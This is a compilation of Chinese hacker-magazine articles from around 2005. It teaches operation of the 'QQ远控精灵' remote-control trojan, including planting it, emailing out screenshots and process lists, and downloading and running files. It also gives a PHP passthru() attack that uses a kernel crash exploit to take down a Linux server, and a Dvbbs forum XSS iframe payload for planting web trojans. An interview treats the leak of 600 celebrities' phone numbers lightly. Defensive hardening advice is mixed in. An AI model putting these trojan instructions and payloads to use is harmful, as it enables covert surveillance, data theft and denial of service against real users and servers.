首先，我们通过各种方法将“QQ远控精灵”的服务端程序种植到远程计算机的系统中，在成功种植后，我们就可以通过 QQ 向对方发送相应的命令语句来进行控制……通过在“QQ远控精灵”操作界面中的配置，用户很快就可以获得远程控制命令代码。

其实“QQ远控精灵”的命令生成过程都差不多，这里先说一个通用的方法吧！用户在“QQ远控精灵”的操作界面中点击命令下拉菜单……最后把生成的代码发给对方，就可以了。

## 示例1：列举进程并发送

用户首先在下拉菜单中选择“列举进程并发送”命令，因为该命令不需要指定什么路径，所以不需要输入路径。点击“生成命令”按钮……代码就出现了，如图3所示。


当远程的服务端接收到命令后，在远程计算机的 C 盘中会出现一个名为“result.txt”的文件，服务端程序会通过设置的信箱发送一封带有附件的邮件。附件名为“QQ远控精灵文件传送”，附件就是记载进程列表的文件。除了“列举进程并发送”外，类似命令还包括“抓屏并发送”等，抓屏文件默认保存为“screen.jpg”并同样存放在 C 盘。除此之外，列举进程、下载文件等操作所生成的文件默认都存放在 C 盘。

## 示例2：下载文件

用户同样在下拉菜单中选择“下载文件”命令，该命令要求你提供下载地址。用户在“生成命令”前的输入框里填写下载文件链接（如文中示例地址），然后点击“生成命令”与“生成代码”，将生成的代码发送给远程用户即可。

当远程服务端收到该指令后会自动下载用户设定文件；若是“下载文件并运行”命令，则下载后自动运行。若是启动远程计算机中的某个文件，需填写该文件在远程机中的路径，例如“C:\screen.jpg”，其他命令也类似。

写进程 ID 或者名称。


最后需要提醒大家注意，识别代码对于远程控制非常重要。操作时需填写清楚，每次运行工具时默认识别代码（如示例中的 wsdgs）应改成你配置服务端时使用的识别代码。用户发送代码时可与聊天内容一起发送，但要保持代码完整连续。若远程用户 QQ 不在好友列表中，可使用文中提到的辅助工具实现强行聊天。

## 三、防范方法

如果你在使用 QQ 聊天时收到一些奇怪的英文字符信息，系统又无故重启，那么除了聊天被恶搞，也可能是系统已被“QQ远控精灵”木马感染。此时应立即断网并进行杀毒。为防范系统被植入木马，应第一时间升级杀毒软件病毒库进行查杀。

除杀毒软件查杀外，也可手工清除。由于该木马功能相对简单，手工删除难度较低：点击“开始→运行”，输入“regedit”打开注册表，定位到 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`，删除名为“system”的键值。重启系统后，在 system32 中找到并删除 `intenat.exe` 与 `intenat.txt`。

到此，“QQ远控精灵”介绍完毕。虽然该木马功能不算多、运行中也可能报错，但对新型感染与监控有一定借鉴意义。用户在使用过程中需提升安全意识，不要随意开放电脑系统。


# 9月 Linux 黑客手册

终于开学了！各位小黑们假期过得舒坦么？大家又学了多少东西呢？……本期就教大家如何利用 PHP 漏洞攻击服务器！所谓知己知彼，百战百胜！本期首发重头戏：《虚拟机 VM5 + RHFC4 菜鸟直通 Linux 必看手册》将你塑造成完美黑客（已另附小手册）！更有机会获取免费 DVD 哦！赶快行动起来吧！


开学了！开学了！若 9 月张含韵能把《开学啦》唱得这么开心……在社会无休止争议黑客价值的同时，是否能把你们的“锐眼”看看其他的“黑”呢？但是社会总是在进步的，学校也是生机勃勃的！同样，我们的开源社区也是一片活力。

## 法国向学生提供免费光盘 促进开源软件应用

在 9 月份重新返回学校时，法国奥弗涅地区的数千名中学生将获得包含有免费软件和开源代码软件的光盘……第一张光盘中包含有 Windows、Mac OS X 平台上的免费软件；第二张光盘是“Linux Live”光盘……

> lala：“类似的新闻也出现在 liunews 过，同样的理念，我们希望中国教育能对于开源文化的重视！”


## 红旗软件5周年庆典暨新产品发布会即将举行

近日，中国 Linux 领先厂商和 Asianux 的主导者之一北京中科红旗软件技术有限公司正式宣布，红旗软件 5 周年庆典暨新产品发布会将于 8 月 25 日—26 日在北京长城饭店隆重举行……

红旗软件代理总裁赵晓亮表示，红旗公司计划在今年下半年开拓东南亚市场……将对整个亚洲 Linux 发展起到推动作用。

> lala：“风风雨雨已经走过 5 个春秋！红旗见证了中国开源文化的发展……”


## iAUDIO加载LINUX！20G神秘M5终于现身

让不少人期待已久的 iAudio 硬盘 MP3 播放器 M5 终于正式发布。这款容量 20GB 的硬盘 MP3 播放器重约 145g……续航时间提高到了 14 个小时。

比起 iAUDIO 的 X5 来，这款产品虽采用单色 LCD 屏幕，但 8 行显示功能表现不逊色……可使用 Linux 系统，实现其他 MP3 不能实现的功能。

> lala：“Linux 在嵌入式市场的应用越来越广泛……”


## Mambo击败Firefox，获最佳开源大奖！

Mambo 内容管理系统击败了大名鼎鼎的 Firefox、IBM 和 LTSP，在 LinuxWorld 大会上 Mambo 被评为最佳……

> lala：“就如商场所说，开源也有竞争。大家鼎鼎的 Firefox 都败下来……”


## 构造PHP函数攻击LINUX服务器

CU-squall

构造函数：passthru()——程序执行功能函数库，执行外部程序并不加处理输出资料。

语法：`string passthru(string command, int [return_var]);`

返回值：字符串

函数种类：操作系统与环境

## 一、内容说明

本函数类似 Exec()，用来执行 command 指令，并输出结果。若是 return_var 参数存在，则执行 command 之后的状态会填入 return_var 中。若输出的资料是二进位资料，并且需要输出到浏览器中的话，使用本函数就相当合适了。例如使用 pbmplus 工具来执行指令，并返回二进位图形资料。可以先配置返回资料的标头（header）为 `Content-type: image/gif`，然后呼叫 pbmplus 程序处理图形资料，并将二进位图形资料直接返回浏览器。

## 二、测试环境

- 1. Redhat Linux 9.0 和 AS3.0，Kernel 版本为 2.4.20-8 和 2.4.21-20.EL。
- 2. httpd-2.0.52.tar.gz，http://www.apache.org/dist/httpd/httpd-2.0.52.tar.gz。
- 3. php-4.3.10.tar.gz，http://www.php.net/downloads.php。

```php
# vi cmd.php
<?php
passthru("ls -al");
?>
```

http://192.168.0.11/cmd.php（图1）显示指定目录和文件。

## 三、攻击

下面我用了最近的 New Kernel Crash Exploit discovered。当然你也可以用一个后门，这样你通过本地溢出，用 nc -vv -l -p 得 root 权限 shell。

漏洞危害：PHP 虚拟主机提供商。

漏洞介绍：请访问 http://linuxreviews.org/news/2004/06/11/kernel.crash/

```c
以下是 crash.c code（节选）
#include <sys/time.h>
#include <signal.h>
#include <unistd.h>
...
int main(int argc,char *argv[])
{
    signal(SIGALRM, Handler);
    setitimer(ITIMER_REAL,&spec,NULL);
    while(1) {
        write(1,"...",...);
    }
}
```

```bash
编译：
# gcc -o crash crash.c
```

把生成的 crash 文件移到网页根目录，再次创建一个 php 文件。

```php
# vi hack.php
<?php
passthru("./crash");
?>
```

输入 http://192.168.0.11/hack.php 后，你会发现你的 Linux 系统已经 down 掉了。

## 四、防范措施

- 1. 修改 php.ini 文件
  - `# vi /usr/local/lib/php.ini`
  - (1) 设置 safe_mode 为 on，并增加限制：
    - 1) 限制哪个命令可以执行；
    - 2) 限制哪个函数可以被使用；
    - 3) 基于脚本所有权和目标文件所有权的文件访问限制；
    - 4) 禁止文件上传功能；
  - (2) 设置 open_basedir：禁止指定目录以外的文件操作，有效消除本地文件或远程文件被 include() 的攻击（仍需注意上传与 session 文件攻击）。
  - (3) 设置 register_globals 为 off。
  - (4) 设置 display_errors 为 off，设置 log_errors 为 on。
  - (5) 设置 allow_url_fopen 为 off。
- 2. 升级内核为最近版本。

> 具体 PHP 安全设置，请见 http://www.xfocus.net/articles/200111/304.html


# 利用 Syslog 追踪系统入侵者

彭文波

在管理 Linux 系统的过程中，我们需要随时了解状况，从而了解系统中正在发生的事情。其实，Linux 系统中已经考虑到这一个需求，并在系统中设置了一个专职记录系统事件的工具 Syslog。通过 Syslog 这个标准的跟踪记录机制，系统就可以方便地记录谁在什么时间、在哪里做了什么事情，记录您的系统曾经发生过什么事情了。

在 Linux 系统中，日志一般存储在 `/var/log` 目录中，这里记录了系统维护和其他程序的日志文件。因此，作为一个安全爱好者，我们有必要了解通过这个工具来详细了解 Linux 系统下的“蛛丝马迹”。

## 一、常见日志文件探幽

很多时候，我们都会碰到类似的问题：“我的图形界面不能启动了！”“我的网络设置出现问题！”这种焦急的心情可想而知。但是，导致这些问题的原因在哪里呢？要解决这些问题，我们需要仔细查看 `/var/log/` 下的 syslog 日志。

- 1. `/var/log/boot.log`
- 2. `/var/log/cron`
- 3. `/var/log/maillog`
- 4. `/var/log/syslog`
- 5. `/var/log/secure`
- 6. `/var/log/lastlog`
- 7. `/var/log/wtmp`
- 8. `/var/log/xferlog`
- 9. `/etc/syslog.conf`

`/var/log/boot.log` 记录了开机或者关闭系统的信息，记录了系统在引导过程中发生的事件。

`/var/log/cron` 记录 crond 守护进程及其子进程动作，涉及 crontab 任务装载、替换和重载等操作。

`/var/log/maillog` 记录邮件系统相关事件，可用于查看用户使用了哪个系统发送工具或发送到哪个系统。

`/var/log/syslog` 可记录登录、认证、邮件、计划任务等综合日志信息，也可通过 `/etc/syslog.conf` 配置生成方式。

`/var/log/secure` 记录系统安全相关信息，例如 ssh、ftp、pop3 等。

`/var/log/lastlog` 记录最近成功与失败登录事件，需通过 `lastlog` 命令查看，通常仅 root 可访问。

`/var/log/wtmp` 记录用户登录、注销及系统启动/停机事件，可通过 `last` 命令查看与倒序追溯。

`/var/log/xferlog` 记录 FTP 会话，可显示用户向 FTP 服务器上传或下载了什么文件。

`/etc/syslog.conf` 可配置日志规则，例如将内核消息写入特定日志文件。


## 三、syslog 配置及追踪分析

了解了上述各个文件的作用，下面，就要考虑如何灵活运用了。系统的记录基本上都是由 syslogd（System Kernel Log Daemon）来产生，而 syslogd 的控制是由 `/etc/syslog.conf` 来做的。syslog.conf 以两个栏位来决定要记录哪些事项，以及记录到哪边去。

### 1. syslog 服务的启动和配置

要确定系统是否运行着这个服务。代码为：`service syslog status`。或者使用代码：`ps -aux | grep syslog`。如果您的系统中并没有运行这个服务，可以使用以下代码打开它：`service syslog start`。

syslogd 的配置文件一般在 `/etc/syslog.conf` 中。这个文件遵循其他配置文件的规则，比如 `#` 是注释。

```conf
# Log anything (except mail) of level info or higher.
# Don't log private authentication messages!
*.info;mail.none;authpriv.none;cron.none /var/log/messages
```

这段话是什么意思呢？顾名思义，它是在 `/var/log/messages` 中记录除去 mail、authpriv 和 cron 之外的所有系统信息，也就是说，它会记录用户的 http 信息。

> 星号（*）代表某一类别中所有项目，例如 mail.* 表示各类 mail；不管什么程度都要记录下来。等号（=）代表只记录目前这一等级。惊叹号（!）代表不要记录目前这一等级以及其上的等级。

### 2. 记录方式及入侵分析

- 1. 一般档案：指定档案路径与档案名称，如 `/var/adm/maillog`。
- 2. 指定终端机或其他设备：将系统记录写到终端机或设备。
- 3. 指定使用者：列出用户名，用户上线时可看到信息。
- 4. 指定远端主机：将系统信息记录到其他主机。

在以上各种记录方式中，都没有电子邮件这一项。因为电子信件要等收件者查看时才看到，紧急情况可能来不及。可在 `syslogd.conf` 里写 `*.* /var/log/everything` 记录所有信息，但日志体积会很大，排查困难。

在 Redhat Linux 下，通过 `last | more` 查看用户历史记录。若发现 syslog 被非活动用户使用过，可能存在重大入侵事件。文中示例追踪到 IP：`211.130.162.159`。

可使用 whois 查询来源：`http://www.internic.net/whois.html`，输入 IP 后可得归属信息，示例显示相关地址信息。

需要注意的是，在安全实践中，syslog 也可能成为攻击者目标，他们会尝试清除日志。因此管理员要灵活运用系统参数进行配置，以便及时了解系统最新变化。

## BCT 成员研究成果列表：

- [Bug Center Team—潇洒预警中心小组] 成员所发现漏洞列表
- rain（老大之一，针对 *NIX 系统入侵）
- H4K_B4N
- linzi（入侵狂——内网）
- focn（喜欢多种模式技术研究）
- jinsdb（喜欢多种模式技术）
- Reject（喜欢系统漏洞）
- 疯狗（喜欢钓鱼）
- 玄猫（喜欢跨站+钓鱼）
- Philocs（喜欢 PHP 脚本）
- 多个成员在相关杂志社发表多篇文章（本文内容不代表黑客手册立场）


## BCT：21世纪，最贵的是朴怀


这是《非安全》第二次做采访，第一次是 6 月对安全圈内圈外一些朋友做的一个小小调查，这次我们准备带读者去了解一下国内民间安全团队的现状。

在几次黑客大战过后的这一段时期，国内黑客站点可以用“犹如雨后春笋般的蓬勃发展”来形容，隔三差五就会冒出来一个 X 盟、X 组、X 队，一时安全站点多如牛毛，目不暇接。高峰过后，必然会走向低潮，安全团队的分崩离析、黑客站点的关闭、挂马黑站的不良行为，纷至沓来的事件向我们一次次证明了民间安全组织正徘徊在低谷的漩涡中。

当黑客事件产生的新闻效应不再如昨，黑客也开始逐渐淡出公众视野。浮躁的光环失去了亮度，也正是技术重归正位的时候。少量忠实于技术原创，以及致力于学习国外新技术的安全团队开始浮现，他们也许并不知名，但是他们的原则和他们的理想，也正预示着逐渐洗牌后的安全界正在孕育着新的希望。

与 B.C.T 的朋友认识由来已久，NoHack 创立之初，BCT 的创始人 Ban 就来到了《非安全》做“漏洞公布”版的“版主”……（正文较长，采访引入与团队背景）

> **广告插播时间：黑客失去联想，世界将会怎样……**

## 创意的价值

很早以前我写过一个大白话的广告语：爱一个黑客不能缺乏想象力……（关于想象力、创新与黑客精神的论述）


NoHack：BAN，你好，很高兴在这个栏目能碰上你。我的第一个问题是，你认为想象力对于黑客技术有多大价值？

Me：哈哈哈哈……对于这个问题，没有想象力的人又如何去运用技术呢？没有想象力的人就只会跟着古老的思想，不会有任何创新和发展空间。

NoHack：国内很多安全组织的简称都是 3 个字母，BCT 也是，你认为这是缺乏创意的表现吗？

Me：国内的安全组织的确有很多“T”哦~~说实在的，我不觉得是一个没有创意的表现，只是觉得好像有某些的“T”并不是真正的存在，只是一个挂着“T”称号的空壳！

## 偶像是猪


偶像的影响力是很大的……（关于偶像崇拜、娱乐与价值观的讨论）

NoHack：看超级女生吗？

Me：超级女生？看过 1 分钟广州赛区的，然后就进房间看着自己的网站发呆了……


NoHack：你的偶像是谁？

Me：我的偶像？好像~~没有喔……无论是娱乐还是学习，人生目标等等，我都没有目标的，我是一个为别人而活的人……

NoHack：有人说一旦把别人视为自己的偶像，也就承认自己将无法超越他，你认为呢？

Me：不赞成这样的说法……偶像对于我来说就是一个需要作为奋斗的目标，而且必须要有能力去超越的！

## 黑客的空想观

研究技术的人，多少都有点疯狂的架势……当技术遭遇爱情，黑客会变成怎样呢？


NoHack：你有爱情了吗？目前是单相思，还是恋爱了？

Me：……现在是恋爱当中，而且经过了很长的一段时间！

> （广告插播时间：今天是七夕，祝愿天下有情人，早结连理）

NoHack：爱情改变了你什么？会影响你搞技术吗？

Me：爱情带来更多的是付出以及承诺……如果技术与爱情发生冲突，我会选择放弃技术，而选择爱情。


## 黑客手册·圈外 9 月

BAN 说他和美国旧金山的女朋友通电话讲了 3 个小时，我想应该是网络电话吧。不然，要打破产的。我想“八卦”地问一句，距离虽然能产生美，但是长距离的分居两地，你不担心吗？这里我们给 BAN 一个机会，给远方的女朋友说几句话吧。

> Me：刚刚也通三个多小时的长途电话，不是网络电话，是真真正正的国际长途电话，大概每天都两三个小时。等待原是最美，长距离的分居两地……Love you forever!


## 对话之：最初的黑客形态

网络人才是 21 世纪商家必争的资源，网络人才让企业充满活力。作为松散的民间安全组织，网络人才在民间组织中起到什么作用呢？我们来看看。


NoHack：看了你们核心成员的名单和他们研究的漏洞，感觉他们很强啊，你是如何吸引他们过来的？

Me：我自己没有名气，也没有什么资金去招揽人员……成员都是我用真心打动的。

NoHack：整个组织的发展你比较追求平衡发展，不太赞扬个人太突出，为什么？

Me：我个人的管理模式……我们不需要个人主义者，这样会带来管理的混乱以及成员之间的矛盾。

NoHack：在我看来，黑客组织的核心是自由、共享……你们如何保持团队协作？有没有常开一些内部会议？

Me：因为条件的特殊，我可不能像企业内部进行定期会议……通过 BBS 和 QQ 群进行信息发布。

NoHack：组织如何保持旺盛生命力来吸引更多高手加入，或者如何长期留住人才？

Me：组织与组织之间都有人才的需求和竞争……如果真的有必要在其他组织发展，我会很乐意放手。

NoHack：BCT 虽然成立时间不长，但是却经历了 3 次重组，重组主要是调整什么呢？

Me：为的是组织的纪律性以及成员的纪律，更好地进行管理，以便更好发挥我们的能力。

## 脚本技术

脚本是 BCT 的一个主攻方向，他们的成员发现了许多脚本方面的漏洞，那我们单刀直入吧。


NoHack：人们之最初，什么事情让你产生了很大的成就感？  
成员回答：……

NoHack：为什么把脚本漏洞作为你们的方向？  
Me：因为成立当初，我们分析过现在的一些形势……所以我们就制定了针对脚本的方向。

NoHack：脚本漏洞分为几种模式的测试？比如软件 BUG 测试分为白盒测试和黑盒测试。  
Me：我们针对的都是开放源码的程序，很少需要黑箱操作……

NoHack：从你们小组发现的漏洞中，主要有哪几种不同的类型？  
Me：这个问题也是我们建立之初的一些担忧，因为脚本漏洞都是跨站脚本攻击、SQL Injection、读写文件、远程执行命令等等……

NoHack：系统漏洞有没有考虑研究过？  
Me：有，但因为技术层面没有达到，所以现在不在考虑范围。

NoHack：我们大多数读者最关心的问题是，如何学习黑客技术？

经过 BCT 内部临时大会做出结论如下：从基础的东西学起，技术这东西要由浅入深……

## 成长的箴言


黑客技术是一把很典型的双刃剑……这是成长过程中无法避免的环节。

NoHack：黑客事件中，什么事情你们会认为最无耻？  
Me：最无耻？个人感觉如果是基于国内网站的涂鸦……我觉得这个是最无耻的！

NoHack：BCT 关于黑站这块对于成员有什么规定？  
Me：别给我知道就是了，或者没有人举报就是了……我没办法去控制他们的行为。

## 事件追踪

编按：本文描述的事件已经过去了 2 个多月，当事人为避开祸端，离开网络半个多月，事态平息之后，他才重回到网络岗位上。600 位明星电话泄漏真相，本文即刻为你独家揭秘。

## 谁是轰炸娱乐圈的本·拉登

## ——600 明星电话泄漏真相

By：幻角


娱乐圈与黑客圈互不搭界，即使有《黑客帝国》这样的大片，也无关黑客们的痛痒，那只是娱乐大众的科幻故事而已。桥归桥，路归路。倒是 3 年前，一个朋友送了我一张刻录电影，是叙述早期世界头号黑客凯文·米特尼克的，可能是传记类的电影吧，但是很遗憾，一直没有时间看，等有时间的时候，碟子却不知所踪。娱乐圈选择黑客作为题材，还是有一定的吸引力。

不过，国内娱乐圈影视题材在展示黑客方面很不专业，听说一个军事题材的电视剧，为了展现我军的电脑高科技，其中有个场景是用 Word 来作为聊天工具。晕。这些导演，花着大把的银子，拍主旋律的片子，却不肯去雇一个哪怕会一点电脑的人来作为电脑技术指导，可笑而可恨啊。这样的烂片真不如把钱捐给贫困地区的孩子，建几所希望小学，为祖国多培养一些栋梁之才。

在已公开的事件中，目前唯一可以查到的是 2002 年，以“我们那旮都是东北人……”而名满网络的歌手雪村的邮箱被盗。后来，一个署名为雪四的人，在雪村所属公司、盛世文广的网站上公开承认邮箱被他所黑，并留言希望雪村与其粉丝多交流。雪村火冒三丈，扬言赏一万捉拿“雪四”，但后来此事不了了之，没有了下文。


3 年过去了，黑客与明星一直相安无事，寂静的潜伏似乎总是预示着更大的爆炸。果不其然，2005 年 5 月，一份涉及国内 600 多位娱乐界明星的电话名单被公布在网上，也如同一颗重磅炸弹击中了娱乐圈。这份名单首先在一个论坛被公布出来，然后迅速被多家网站和论坛转载。

一些好事者也自然不会放过和明星电话交流的好机会，短信和电话骚扰自然成了那段时间明星们最苦不堪言的事情。

媒体也陷入了一次职业道德的拷问。不过，国内门户网站做了调查，绝大多数的网友对于明星电话被泄露持平淡的心态，笔者也问过四周的一些朋友，大都表示一种平静的态度，也没有人想过去打电话去骚扰明星，看起来舆论反应差不多是以平静者居多。

笔者在这次事件爆发之前就拿到了这份名单，是用 Excel 的电子表格排放的，76 个不同分类的工作表，分别是“名流名单”“影视公司”“合作者”“合作服装场地”“摄影造型师”“媒体名单”等等。“名流名单”所带来的影响最大，里面有 600 多位国内名人的联系方式。手机、座机都有，以及手机为主。名单为拼音顺序排列，国内叫得上名字的影视明星歌手都囊括其中。

这里我就不再举例。但是可以看出来，是经过多轮积累才制出这份名单的。制作这份名单的人到底是谁？拿到这份名单的人又是谁？

后来 sina 网采访了一个黑客，采访爆料说某个黑客讲入了某娱记的电脑，从而偷到了这些资料。恰好笔者在事发之前拿到这份名单，离这个漩涡中心很近，回溯过去，很巧就知晓了谁是制造这个事件的“本·拉登”。于是，就有了下面这一段采访。

## 黑客帝国

娱乐圈老拿黑客搞事，黑客也自然不会忘记搞搞娱乐圈。漂亮的金发女郎 Paris Hilton（酒店业巨头希尔顿的后裔），今年 2 月手机被黑，手机里面非常隐私的且为儿童不宜的若干照片被偷出来公布在网上。接着，摇滚歌手 Fred Durst 的手机也被破解，这个满脸胡茬刺青的歌手的私藏也毫不逊色，他手机中一张正面全裸的 PLMM 照片，让浏览的网友更是目瞪口呆。


时隔不久，色情杂志女星 Vida Guerra 手机中的诸多本色照片也流传在网上。这次事件的罪魁祸首是一款型号为 T-Mobile Sidekick II 的手机，这种手机能上网、发短信/彩信、拍照，但却没有打电话的功能。


国内黑客和明星的亲密接触相对较少。

> “你就是本·拉登”

幻角（单刀直入）：你就是轰炸了娱乐圈的“本·拉登”？

矩阵（爽快回应）：应该很早就知道了，咋了啊？现在过了这么久，咋还在提这件事？

幻角：我是前段时间才知道是你。

> “一切都是巧合”

幻角：怎么入侵的？

矩阵：其实那个人是运气啊，并没有任何技术可言，是谁给你说的？

幻角：地狱人都知道啊。是的，娱乐圈不是安全公司，想来应该是运气。

## 黑客重现 聊聊黑客

## 娱乐记者工作室

## 娱乐记者放了鸽子

## 如何发现名单

## 如何流传到网上

## 个人问题

## 现状与忠告

## 后记

（整版为采访对话体正文，主要围绕黑客“矩阵”入侵娱乐记者电脑、名单外泄过程、后续影响与个人反思展开。）


# 从动网挂马漏洞看网页木马防范

by ly

动网最近新出的“前台管理员”“置顶漏洞”大家都已经很熟悉了吧。祸不单行，前不久动网又爆出了“挂马漏洞”。相对于前面提到的漏洞来说，“挂马漏洞”的危害更大——无需取得任何权限，即可在论坛上挂网页木马，直接危害到广大网民的安全。在这里我将简单介绍一下挂马漏洞的原理和利用方法，以及补丁和应对网页木马的防范方法。

此次攻击的类型属于跨站攻击，在动网 6.0 的时候也出现过这种类型的 cookies 收集漏洞。原理是使动网调用其他网站的恶意页面，实行跨站攻击。

```html
</script><iframe height=600 width=400 src="http://木马网站"></iframe>
```

```asp
fString=replace(fString,"\","过滤")
fString=replace(fString,"--","过滤")
fString=replace(fString,"'","过滤")
fString=replace(fString,"""","过滤")
fString=replace(fString,";","过滤")
fString=replace(fString,CHR(34),"""")
fString=replace(fString,vbCrLf,"")
HTMLEncode2=fString
end function
%>
```


以后只要你参与的帖子都会自动调用恶意网站，做广告、挂木马、拿 cookie 等等，干什么都行。

```asp
UserIM=checkreal(Request.form("homepage")) & "|||" & checkreal(Request.form("OICQ")) & "|||" & checkreal(Request.form("ICQ")) & "|||" & checkreal(Request.form("msn")) & "|||" & checkreal(Request.form("yahoo")) & "|||" & checkreal(Request.form("aim")) & "|||" & checkreal(Request.form("uc"))
```

分析可知“UserIM”是文本拼接字段，其中 homepage 为注册时主页选项，从 Request.form("homepage") 获取，处理不充分导致可插入恶意标签。

```asp
UserIM=checkreal(Request.form("homepage")) & "|||" & checkreal(Request.form("OICQ")) & "|||" & checkreal(Request.form("ICQ")) & "|||" & checkreal(Request.form("msn")) & "|||" & checkreal(Request.form("yahoo")) & "|||" & checkreal(Request.form("aim")) & "|||" & checkreal(Request.form("uc"))
```

在 reg.asp 中找到 UserIM 相关语句后，加入 `UserIM=HTMLEncode2(UserIM)` 进行过滤即可。

- 1. 注册的时候
- 2. 注册之后可修改个人信息
- 3. 管理员在后台修改个人信息

modify/add.asp 中同样按上述步骤添加过滤函数与赋值过滤语句。

- 1. Mshta 网页木马
- 2. Chm 网页木马
- 3. Js 网页木马
- 4. Xp2 溢出
- 1. 把木马文件改成 BMP 文件，然后配合你机器里的 DEBUG 来还原成 EXE，网上存在该木马 20%。
- 2. 下载一个 TXT 文件到你机器，然后里面有具体的 FTP 地址，FTP 连上他们有木马的机器下载木马，网上存在该木马 20%（mshta 变种）。
- 3. 也是最常用的方式，下载一个 HTA 文件，然后用网页控件解释器来还原木马。该木马在网上存在 30% 以上（mshta 网页木马）。
- 4. 采用 JS 脚本、VBS 脚本来执行木马文件，该型木马偷 QQ 的比较多，偷传奇的少，大概占 30% 左右。


知道了原理那就开始防范。首先把系统文件下的 mshta.exe 文件改名，然后将注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\` 下为 Active Setup controls 创建一个基于 CLSID 的新键值 `{6E449683-C509-11CF-AAFA-00AA00B6015C}`，然后在新键值下创建一个 REG_DWORD 类型的键 Compatibility，并设定键值为 `0x00000400` 即可。还有把 windows(winnt)\command\debug.exe 和 windows(winnt)\ftp.exe 都改个名字（或者删除）。

如果你觉得手工打补丁很麻烦的话，还可以使用一个不错的软件：网络安全助手，最新版本 5.7（如图 2）。该软件是目前唯一能够针对各种网页木马给出防范措施的软件，使用起来也很方便，只要简单设置一下，然后点击“确定”就可以了。同时软件还有其他一些安全设置，大大加强了 Windows 的安全性。大家可以在 Google 或百度上搜索一下，下载一个试试。

> 关于作者“现在网页木马无非有以下几种方式中到你的机器里”的几种推断，小编不敢苟同，不知作者是如何统计出来的。虽然动网页病毒层出，但挂的网页木马的确还是那几种，因此只要自己的电脑对那些网页木马有“免疫力”也就不怕它再挂个什么挂马漏洞了！

经过这样的设置后，我专门找别人发的木马网址去测试，实验结果是上了大概 20 个木马网站，有大概 15 个瑞星会报警，另外 5 个瑞星没有反应，而我的机器没有添加出来新的 EXE 文件，也没有新的进程出现，只不过有些木马的残骸留在了 IE 的临时文件夹里，没有被执行起来，没有任何危险性。当然，IE 漏洞层出不穷，作为网民平时仍要小心，注意微软的漏洞报告，及早打上补丁。

很长一段时间以来，大家常用的各类软件不断爆出危险漏洞，那么这些漏洞会对我们的电脑造成什么危害呢？如何防范这些常用软件的漏洞呢？从本期开始推出的“常见软件安全漏洞”系列文章，会帮助大家对 Serv-U、杀毒软件、媒体播放器等常用软件中的安全漏洞做进一步的了解，防患于未然。

# 常见软件安全漏洞系列之：防范 Serv-U 漏洞

by XaCk3r

Serv-U 是一个极为强大的 FTP 服务器软件，界面简洁，容易上手，不论是商业用途，还是自己建个人 FTP，它几乎成了首选软件。而近两年不断爆出其各个版本的安全漏洞，让大家在使用 Serv-U 时不得不多留个心眼。

- 1. **嗅探窃听**：这是对 Serv-U 攻击的一个前奏。入侵者会通过一些嗅探软件窃听到 FTP 密码，毕竟一些攻击工具必须拥有帐号才能实施攻击。
- 2. **恶意攻击**：使用大容量文件攻击，入侵者会利用该漏洞对 Serv-U 软件发送大容量文件，然后导致 FTP 处理不过来而造成程序没有响应或者自动关闭。
- 3. **权限提升**：前提是攻击者取得对 Serv-U 安装目录完全控制权限。如果 Serv-U 把配置信息写入扩展名为 ini 的文件，大部分攻击者会对目标主机 WEB 服务进行渗透入侵，诸如利用流行的 SQL 注入、上传漏洞来进行入侵，进而对 Serv-U 的安装目录实施篡改 ServUDaemon.ini 文件，替换为自己设定好拥有执行权限的配置信息，以此来获取管理员身份特权。
- 4. **帐号隐藏**：通过第三方插件（Serv-U 扩展库），实现“帐号一映射”，也就是让一个固定帐号下面映射出几个子帐号，继承帐号权限。攻击者必须拿到 Serv-U 目录的写权限，利用插件来对帐号隐藏。
- 5. **漏洞溢出**：一般情况下，攻击者在确定版本有溢出漏洞之后，会自己编译或者在网络上寻找所对应的溢出漏洞攻击工具对目标系统进行溢出；成功将会取得目标系统的系统权限。由于 Serv-U 默认是以 system 权限运行，所以溢出成功后，所得到的权限为 system 权限。

纵览一下当前网络上流行的漏洞攻击方式，软件缺陷所造成的溢出最为关键。简单地说，溢出就是针对软件的 bug，提交构造的恶意代码，造成软件执行攻击者的代码或指令。从 2004 到 2005 年内 Serv-U 就出现了 4-5 个溢出漏洞，最严重的是甚至可以从远程获取电脑的完全管理权限，非常危险。这将直接导致我们的个人隐私完全暴露，入侵者可以通过漏洞进入我们的计算机，肆意翻看我们电脑上的文章、照片。当前在网络中出现的攻击手段，主要有嗅探窃听、恶意攻击、权限提升、帐号隐藏、漏洞溢出五种方式，而这些又是一个互相关联的过程。

## 9.9 OFFICE 38 浅显安全系列之三

我们可以从国内权威安全组织“绿盟”漏洞数据库中查找到在过去一年内的和 Serv-U 漏洞，很是吃惊，平均下来三个月就有一次漏洞。

- 2004-09-14 Serv-U FTP 服务器设备文件名远程拒绝服务漏洞
- 2004-08-09 Serv-U 本地权限提升漏洞
- 2004-04-22 Serv-U FTP 服务端 LIST 命令超长 -I 参数远程缓冲区溢出漏洞
- 2004-02-27 Serv-U FTP 服务器 MDTM 命令远程缓冲区溢出漏洞
- 2004-01-29 Serv-U FTP 服务器 SITE CHMOD 命令超长文件名远程溢出漏洞

下面我们就以 Serv-U 本地权限提升漏洞为例来说明其危害性。

> 小提示：尽管在 Serv-U 6.0.0.2 中增加了密码安全设置功能，但是本文作者在对 Serv-U 6.0.0.2 进行测试的时候发现，在安装 Serv-U 的服务器权限设置不当的时候依然能提升权限成功。

- 漏洞发现日期：2004-08-09
- 影响版本：RhinoSoft Serv-U 3.0.0.20 至 RhinoSoft Serv-U 6.0.0.2
- 漏洞危害：Serv-U 存在设计问题，本地攻击者可以利用这个漏洞以 SYSTEM 权限在操作系统上执行任意命令。
- 测试环境：Microsoft Windows Server 2003, Enterprise Edition + Serv-U FTP Server 6.0.0.2

## 1、系统权限设置

- 1. 对 Serv-U 目录设置权限，清理用户组，仅保留 Administrators 和 System。
- 2. 建立一个 FTP 用户目录，目录权限分配为 Administrators 完全控制、System 只读。
- 3. 为每个用户建立各自目录，删除 Everyone 组，赋予 System 账户文件夹完全控制，并给用户目录用户完全访问控制。
- 4. 通过 Serv-U 设置用户权限，取消“执行”权限，尤其在 WEB 目录中避免执行脚本，防止 WebShell 运行。

## 2、防范大容量文件攻击

在安装好 FTP 软件后，需要在域或虚拟 FTP 中添加用户并设置上传下载速度，防止被恶意发送超大容量文件导致 FTP 无响应或自动关闭。建议在“常规”中限制最大上传速度、最大下载速度、空闲超时、会话超时等参数。

